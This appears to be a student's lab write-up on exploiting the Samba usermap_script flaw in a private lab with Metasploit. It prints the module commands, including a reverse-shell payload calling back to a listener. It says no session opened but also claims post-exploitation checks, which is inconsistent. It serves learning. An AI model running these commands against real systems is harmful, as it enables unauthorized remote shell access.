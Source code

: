 
---

##  Lab04 – Enumerating & Attacking SMB with Samba Usermap Script

```markdown
# Lab04 – Enumerating & Attacking SMB with Samba Usermap Script
```
---

##  Objective
Explore vulnerabilities in the Samba service and attempt exploitation via the usermap_script module.

---

##  Tools
- Metasploit Framework
- Enum4linux (Optional)

---

##  Exploit Used
```bash
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.56.101
set RPORT 139
set LHOST 192.168.56.1
set payload cmd/unix/reverse
run
```
---

## Result
Exploit attempt completed, but no session was created

Demonstrated post-exploitation validation (whoami, id, hostname)

---

## What I Learned
Gained insight into SMB vulnerabilities and misconfigurations

Understood the role of payload compatibility and listener binding

Learned how to troubleshoot and document failed attempts

---

## Screenshot
![samba exploit](./Screen Shot 2025-05-28 at 21.34.18.png)

---

## Date
28 May 2025
